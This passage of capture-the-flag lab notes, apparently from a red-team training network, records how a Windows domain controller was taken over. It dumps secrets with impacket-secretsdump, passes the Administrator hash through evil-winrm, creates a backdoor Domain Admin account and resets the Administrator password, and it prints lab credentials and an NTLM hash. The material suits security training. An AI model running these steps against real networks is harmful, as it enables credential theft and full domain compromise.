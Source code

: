 
## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

## Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@10.200.113.102`

![[Dumping secrets from CORPDC-20240601064020744.webp]]

Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::

## Connect using `evil-winrm`

$ `proxychains4 /usr/bin/evil-winrm -u Administrator -H d3d4edcc015856e386074795aea86b3e -i 10.200.113.102`

![[Dumping secrets from CORPDC-20240602155726615.webp]]

You'll get a shell.
Check out the hostname.

Evil-WinRM PS C:\Users\Administrator\Documents> `hostname`

![[Dumping secrets from CORPDC-20240602160026969.webp]]

### Create a new user as an Administrator

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos K41r@s123 /add /domain`

Username: kairos
Password:  K41r@s123

### Enumerate the groups to find the group name for the Administrator user

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group`

![[Dumping secrets from CORPDC-20240604135830320.webp]]

### Add the new user to this group to make him the `Domain Admin`.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group "Domain Admins" kairos /add /domain`

### Display user's information


The `net user` command is a Windows command-line utility that can be used to display or modify user account information. The `/domain` switch is used with `net user` to specify that the operation should be performed on a domain controller, allowing you to view or change user account information in a domain environment.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos /domain`

![[Dumping secrets from CORPDC-20240604140856658.webp]]

## RDP to CORPDC

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:kairos /p:K41r@s123` 

### Getting flag 7
[[Flag Submission Process]]


## Change the Administrator's password.
Even though you are a member of Domain Admins group, you can access the Administrator's directoroy.


Evil-WinRM* PS C:\Users\Administrator\Documents> `net user Administrator Hacker@123 /domain`

#### RDP to CORPDC with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 

### Getting flag 8

[[Flag Submission Process]]
